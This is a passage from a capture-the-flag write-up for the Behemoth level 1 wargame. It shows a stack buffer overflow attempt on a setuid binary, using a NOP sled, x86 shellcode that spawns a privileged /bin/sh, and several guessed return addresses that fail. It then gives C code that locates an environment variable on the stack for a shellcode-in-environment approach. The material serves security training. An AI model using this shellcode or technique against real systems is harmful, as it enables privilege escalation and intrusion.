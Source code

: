 Unfortunately we got a segmentation fault. It looks like we didn't choose the right return address. Let's tweak the return address in increments of 40 bytes to see if we can land in the NOP sled with a few different return addresses.

```bash
behemoth1@behemoth:/behemoth$ python -c 'print "\90"*40 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\xe4\xd5\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
behemoth1@behemoth:/behemoth$ python -c 'print "\90"*40 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x0c\xd6\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
behemoth1@behemoth:/behemoth$ python -c 'print "\90"*40 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x34\xd6\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```

Alright so this isn't going as smoothly as I hoped. The challenge now is finding the address in the stack that we should jump to. Let's try another strategy that is similar but stores the shellcode in an environmental variable. I have a script that looks up where this environmental variable is stored on the stack. We can then change our address to this address and hopefully jump to where the environmental variable is stored and execute the shell code there. Let's do it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	char *ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```

Let's create a directory in the /tmp/ folder where we can save this piece of code, compile, and then run it. NOTE: This stategy only works when ASLR (Address Space Layout Randomizer) is disabled (which it is in this server).

```bash
behemoth1@behemoth:/behemoth$ mkdir /tmp/smhbehemoth1
behemoth1@behemoth:/behemoth$ cd /tmp/smhbehemoth1
behemoth1@behemoth:/behemoth$ touch findenvaddr.c
...
...
behemoth1@behemoth:/tmp/smhbehemoth1$ gcc -o findenvaddr.out findenvaddr.c 
```
